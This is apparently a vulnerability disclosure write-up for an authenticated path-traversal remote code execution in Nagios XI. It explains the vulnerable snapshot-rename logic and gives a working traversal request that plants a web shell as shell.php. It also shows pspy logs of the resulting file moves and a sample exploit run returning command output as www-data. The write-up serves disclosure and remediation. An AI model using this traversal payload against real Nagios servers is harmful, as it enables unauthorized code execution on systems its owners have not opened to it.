 Three variables are set: `rename` -> `$ts`, `file` -> `$file`, and `new_name` -> `$new_name`. First, the name of the file minus the extension is retrieved from the `$file` parameter. Next, payload used to execute the shell command is created as an array `$command_data[]`. We can see `$command[0]` is the value of `$file` with the substring `.tar.gz` removed. We can also see `$command_data[1]` is set to `$new_name . $ts`, therefore the `rename` parameter ultimately ends up being the extension type. 

Finally, this array is passed to `serialize()` and then passed to the `submit_command()` function. This function is located within a source protected file, therefore the tool [pspy](https://github.com/DominicBreuker/pspy) was leveraged to observe shell commands executed.

When submitting a command such as the following:

```
http://192.168.122.248/nagiosxi/admin/coreconfigsnapshots.php?rename=php&file=../../../../../../../../../../../../../../usr/share/snmp/mibs/shell&new_name=/../../../../../../../../../usr/local/nagiosxi/html/tools/shell
```

The `pspy` output showed the following `mv` command:
```
2024/11/03 19:41:07 CMD: UID=1001  PID=142674 | mv /usr/local/nagiosxi/nom/checkpoints/nagioscore//archives/../../../../../../../../../../../../../../usr/share/snmp/mibs/shell.txt /usr/local/nagiosxi/nom/checkpoints/nagioscore//archives//../../../../../../../../../usr/local/nagiosxi/html/tools/shell.php.txt 
2024/11/03 19:41:07 CMD: UID=1001  PID=142675 | mv /usr/local/nagiosxi/nom/checkpoints/nagioscore//archives/../../../../../../../../../../../../../../usr/share/snmp/mibs/shell /usr/local/nagiosxi/nom/checkpoints/nagioscore//archives//../../../../../../../../../usr/local/nagiosxi/html/tools/shell.php 
2024/11/03 19:41:07 CMD: UID=1001  PID=142676 | mv /usr/local/nagiosxi/nom/checkpoints/nagioscore//../nagiosxi/archives/../../../../../../../../../../../../../../usr/share/snmp/mibs/shell_nagiosql.sql.gz /usr/local/nagiosxi/nom/checkpoints/nagioscore//../nagiosxi/archives//../../../../../../../../../usr/local/nagiosxi/html/tools/shell.php_nagiosql.sql.gz 
```
The second command is responsible for moving the `shell` file from `usr/share/snmp/mibs/shell` to `/usr/local/nagiosxi/html/tools/shell.php` due to the directory traversal sequences in `file` and `new_name`, and control of the file extension via the `rename` parameter.


## Proof of Concept

I would have done curl commands, however the `nsp` variable being required in POST requests made it a little more complicated...

The following script can be used to prove the vulnerability out using the following format (it is overly verbose for assistance in identifying/remediating the vulnerability):

```
$ python3 exploit.py http://192.168.122.248/nagiosxi/ nagiosadmin 'Passw0rd!' 'id'
[*] Making upload POST request to http://192.168.122.248/nagiosxi/admin/mibs.php
[+] Seems like upload worked
[*] Making snapshot move GET request to http://192.168.122.248/nagiosxi/admin/coreconfigsnapshots.php
[+] Seems like file move worked!
[*] Making shell request to http://192.168.122.248/nagiosxi/tools/shell.php
[*] Output
uid=33(www-data) gid=33(www-data) groups=33(www-data),114(Debian-snmp),1001(nagios),1002(nagcmd)
```
### Exploit source
The python script above `exploit.py` is available here: [nagios_path-traversal_rce.txt](/exploits/nagios_path-traversal_rce.txt)
